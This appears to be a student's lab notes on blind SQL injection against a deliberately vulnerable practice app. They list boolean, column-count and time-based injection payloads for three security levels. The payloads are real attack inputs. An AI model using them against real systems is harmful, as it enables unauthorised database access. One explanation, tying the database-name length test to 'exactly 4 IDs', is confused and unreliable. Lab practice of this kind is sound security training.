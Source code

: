 Blind SQL injections rely on finding
implicit true/false outputs based on input
to find vulnerabilities.

### Security level: LOW

* Solution 1: 1' and length(database())=4#
* Solution 2: 1' and version();#
* 1' order by 3# query results in "User ID is MISSING from the databse".
This is a indirect way of saying there are only 2 columns
* Anything other than 1' and length(database())=4# will result in 
the missing error because there are exactly 4 IDs.

### Security level: MEDIUM
* Solution 1: 1 and length(database())=4#
* Solution 2: 1 and version();#

### Security level: HIGH
* Solution: 1' and sleep(10)#
* Recieved "User ID is MISSING from the database" after 10 seconds, meaning it worked.
